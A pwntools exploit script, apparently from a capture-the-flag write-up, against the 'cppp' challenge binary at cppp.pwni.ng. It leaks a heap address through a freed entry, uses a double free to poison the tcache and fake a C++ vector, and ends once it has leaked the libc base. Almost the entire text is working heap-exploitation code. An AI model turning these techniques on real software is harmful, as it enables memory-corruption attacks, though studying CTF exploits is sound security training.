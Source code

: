 Final exploit script:

```python
#!/usr/bin/env python

from pwn import *

elf = ELF("./cppp_noalarm")
libc = ELF("./libc-2.27_50390b2ae8aaa73c47745040f54e602f.so")

def add(name, buf):
    r.sendlineafter(":", "1")
    r.sendlineafter("name:", name)
    r.sendlineafter("buf:", buf)

def remove(idx):
    r.sendlineafter(":", "2")
    r.sendlineafter("idx:", str(idx))

def view(idx):
    r.sendlineafter(":", "3")
    r.sendlineafter("idx:", str(idx))

if __name__ == "__main__":

    r = remote("cppp.pwni.ng", 4444)

    # leak heap
    add("1111", "a"*0x200)
    add("2222", "b"*0x200)
    remove(0)
    view(0)
    r.recvuntil(" ")
    heap = u64(r.recv(6).ljust(8, "\x00")) - 0x13290 - 0xc30 
    log.success("heap: {:#x}".format(heap))

    remove(0) # duplicate tcache 0x210

    # make libc address appears on heap
    for i in xrange(3, 11): # allocate 0x90 * 8
        log.info("alloc 0x90:{}".format(i))
        c = chr(ord('a') + i)
        add(str(i)*4, c*0x80)

    for i in xrange(7, 1, -1): # free 0x90*8
        log.info("del 0x90:{}".format(i))
        remove(i)

    # next allocate 0x210 from tcache ( overwrite fd )
    vector_begin = heap + 0x146f0
    payload = p64(vector_begin).ljust(0x200, 'z')
    add("1111", payload)
    # fake vector
    libc_ptr = heap + 0x149a0
    tcache20 = heap + 0x14750
    payload = "i"*8 + p64(libc_ptr) + p64(libc_ptr) + p64(8) + "i"*16 # idx 0
    payload += p64(8) + p64(tcache20) + p64(libc_ptr) + p64(8) + p64(0) + p64(0x21) # idx 1
    payload += p64(8) + p64(tcache20) + p64(libc_ptr) + p64(0x21) + p64(0) + p64(21) # idx 2
    payload = payload.ljust(0x200, "\x00")
    add(p64(heap+0x50), payload)
    # leak libc
    view(0)
    r.recvuntil(" ")
    libc.address = u64(r.recv(6).ljust(8, "\x00")) - 0x3ebca0
```
